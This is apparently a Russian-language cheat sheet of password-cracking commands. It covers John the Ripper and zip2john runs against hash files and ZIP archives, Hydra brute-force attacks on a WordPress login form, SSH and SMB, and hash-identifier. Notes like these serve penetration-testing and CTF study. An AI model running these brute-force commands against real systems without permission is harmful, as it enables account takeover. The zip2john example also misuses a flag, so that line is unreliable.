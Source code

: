 ## John the ripper
Имея hash пароля пытается подобрать верный пароль.
Пример:
``` 
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt -format=<hash format, напримире bcrypt> resultFile.txt
```
Пример:
``` 
john md5.hash --wordlist=/usr/share/wordlist/rockyou.txt -format=Raw-MD5 resultFile.txt
```
или стандартный взлом hash-а:
```
john hash.txt --show
```
### Zip archive
```
zip2john archive.zip > arch.hash
john arch.hash -o rockyou.txt
```
## Hydra
Пример брутфорса пародя внутри формы авторизации на wordpress/wp-login.php:
``` 
hydra -L <username> -p <brutList.txt> <url например 10.10.1.2> http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
``` 
hydra -l <username> -P <brutList.txt> <url например 10.10.1.2> http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for username" -t 30
```
Пример брутфорса пароля SSH на порту 2222:
``` 
hydra -l <username> -P <brutList.txt> ssh:10.10.1.2:2222
```
Брутфорс авторизации по smb:
```
hydra -L users.txt -P pass.txt <IP> smb -V
```
## Взлом Hash-а - hash-identifier
```
hash-identifier
HASH: <hash>
```